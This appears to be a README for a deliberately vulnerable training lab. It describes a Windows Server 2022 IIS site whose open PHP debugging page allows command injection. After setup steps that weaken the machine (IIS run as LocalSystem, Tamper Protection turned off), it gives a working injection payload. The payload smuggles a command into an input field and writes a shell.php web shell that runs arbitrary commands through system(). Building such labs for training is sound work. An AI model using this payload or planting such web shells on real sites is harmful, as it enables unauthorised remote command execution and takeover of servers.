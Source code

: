 # Windows Server 2022 IIS

Files for Windows Server 2022 IIS scenario.


## Scenario

Company website using php leaves a debugging panel open that allows for php command injection.


## Setup

Set up a Windows Server 2022 VM. Install IIS, and set up index.php and userLookup.php files in C:/inetpub/wwwroot. Change the service worker for IIS to LocalSystem. Turn off Tamper Protection.

## Exploitation

Use the insecure debugging page left open on userLookup.php to php injection a shell.php webshell page into the website.

PAYLOAD:
```
'& (echo ^<html^> & echo ^<body^> & echo ^<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>"^> &  echo ^<input type="TEXT" name="cmd" id="cmd" size="80"^> & echo ^<input type="SUBMIT" value="Execute"^> & echo ^</form^> & echo ^<pre^> & echo ^<?php & echo     if^(isset^($_GET['cmd']^)^) & echo     { & echo         system^($_GET['cmd']^); & echo     } & echo ?^> & echo ^</pre^> & echo ^</body^> & echo ^<script^>document.getElementById^("cmd"^).focus^(^);^</script^> & echo ^</html^>) > shell.php & echo '```
